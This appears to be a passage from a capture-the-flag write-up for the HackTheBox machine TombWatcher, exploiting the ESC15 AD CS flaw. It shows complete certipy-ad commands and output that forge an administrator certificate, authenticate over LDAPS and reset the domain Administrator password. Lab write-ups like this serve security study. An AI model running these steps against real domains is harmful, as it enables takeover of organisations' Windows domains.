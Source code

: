 Discovered `ESC15`.
## ESC15

Read about:

https://github.com/ly4k/Certipy/wiki/06-%e2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu
### Plan A

**Step 1: Request a certificate, injecting “Client Authentication” Application Policy and target UPN**

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'Hacker123!' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -upn 'administrator@tombwatcher.htb'  \
    -application-policies 'Client Authentication'


Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 9
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

```

**Step 2: Authenticate via Schannel (LDAPS) using the obtained certificate.**

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72' -ldap-shell
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@tombwatcher.htb'
[*] Connecting to 'ldaps://10.10.11.72:636'
[*] Authenticated to '10.10.11.72' as: 'u:TOMBWATCHER\\Administrator'
Type help for list of commands

# ls
*** Unknown syntax: ls

# change_password administrator Hacker123!
Got User DN: CN=Administrator,CN=Users,DC=tombwatcher,DC=htb
Attempting to set new password of: Hacker123!
Password changed successfully!

# Bye!
```
